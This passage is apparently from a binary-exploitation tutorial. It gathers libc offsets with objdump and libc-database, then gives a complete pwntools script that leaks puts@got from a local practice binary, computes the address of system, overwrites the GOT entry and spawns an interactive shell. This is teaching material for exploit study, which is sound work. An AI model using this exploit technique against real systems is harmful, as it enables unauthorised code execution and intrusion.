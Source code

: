 Let's gather our offsets and we can write our final exploit script.

```
ubuntu@ubuntu-xenial:~/libc-database$ objdump -d /lib/i386-linux-gnu/libc-2.23.so | grep "<_IO_puts@@GLIBC_2.0>:"
0005fca0 <_IO_puts@@GLIBC_2.0>:
ubuntu@ubuntu-xenial:~/libc-database$ ./dump local-03ffe08ba6d5e7f5b1d647f6a14e6837938e3bed | grep system
offset_system = 0x0003ada0
```

Final exploit script:

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_records")

    # Craft first stage (arbitrary read)
    leak_address = 0x0804a018    # Address of puts@got
    command = "/bin/sh"
    stage_1 = command.ljust(24, "\x00") + p32(leak_address)
    p.recvrepeat(0.2)

    # Send the first stage
    p.send(stage_1)

    # Parse the response
    data = p.recvrepeat(0.2)
    leak = data[data.find("(")+1:data.rfind(")")]
    log.info("Got leaked data: %s" % leak)
    puts_addr = u32(leak[:4])
    log.info("puts@libc: 0x%x" % puts_addr)

    # Calculate libc base and system
    puts_offset = 0x5fca0
    libc_base = puts_addr - puts_offset
    log.info("libc base: 0x%x" % libc_base)
    system_offset = 0x0003ada0
    system_addr = libc_base + system_offset
    log.info("system@libc: 0x%x" % system_addr)

    # Overwrite puts@got
    ret_address = system_addr
    p.send(p32(ret_address))

    p.interactive()

if __name__ == "__main__":
    main()
```
